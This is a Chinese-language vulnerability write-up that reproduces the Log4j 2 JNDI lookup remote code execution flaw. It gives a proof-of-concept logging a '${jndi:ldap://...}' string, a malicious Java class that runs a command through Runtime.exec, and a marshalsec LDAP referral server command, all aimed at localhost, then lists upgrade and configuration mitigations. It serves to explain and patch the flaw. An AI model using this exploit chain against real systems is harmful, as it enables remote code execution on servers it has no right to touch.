

# Log4j 的远程代码执行

## 影响版本

Apache Log4j 2.x <= 2.14.1 版本均回会受到影响。

## lookup 功能造成的漏洞

Log4j 是一款开源 Java 日志记录工具。Log4j 2 是对 Log4j 的重大升级，此次漏洞的出现，正是由用于 Log4j 2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

## 环境搭建创建一个新的maven项目，并导入Log4j的依赖包

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
	<version>2.14.1</version>
</dependency>
```

## 漏洞复现

**poc.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

class LogTest {
    public static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:9999/Exploit}");
    }
}
```

**恶意类Exploit.class**

exp.java

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

执行javac exp.java

**使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888`

**运行poc.java，即可访问恶意类并执行写在其中的"calc"命令**



## 修复方式

Apache官方已发布新版本完成漏洞修复，建议用户尽快进行自查，并及时升级至最新版本：

> [https://github.com/apache/log...](https://link.segmentfault.com/?enc=5zhTi4nMsRf%2FTpPQ3MkO9w%3D%3D.0fom8wlHG1fkY5yAX5%2FbmN1w5PCVOHeCSUcHJfztuUvHb%2FmeYO7rXtxFrDnGlxmQkADxftd03hpndOJdm4ws9LNS6RvTnyflazhektZRCMU%3D)

建议同时采用如下临时措施进行漏洞防范：

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；

4）部署使用第三方防火墙产品进行安全防护。

